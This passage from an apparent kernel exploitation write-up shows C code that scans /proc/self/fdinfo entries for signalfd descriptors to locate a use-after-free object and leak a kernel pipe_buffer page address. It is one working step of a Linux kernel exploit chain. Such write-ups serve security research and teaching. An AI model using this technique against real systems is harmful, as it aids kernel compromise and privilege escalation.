 With this, we can search for the signalfd UAF object.

```C
uint64_t leak;
char file[64] = {0};
char buffer[256] = {0};
/* locating vulnerable object (uaf) */
for (uint32_t j = 0; j < MAX_SIGNAL; j++) {
	snprintf(file, 26, "/proc/self/fdinfo/%d", fd_cross[offset + j]);
	
	fd_read = open(file, O_RDONLY);
	
	if (fd_read < 0) {
		printf("[-] open: %d\n", errno);
		exit(0);
	}
	
	int n = read(fd_read, buffer, 72);
	
	if (n < 0) {
		printf("[-] read: %d\n", errno);
		exit(0);
	}
	
	if (strncmp(&buffer[47], "fffffffffffbfeff", 16)) {
		leak = ~strtoul(&buffer[47], (char **) NULL, 16);
		
		printf("[+] pipe_buffer->page leak: 0x%016lx\n", leak);
		fd_idx = offset + j;
		break;
	}
	
	bzero(file, 26);
	bzero(buffer, 72);
}
```

![uaf_2](/assets/images/uaf_2.png)
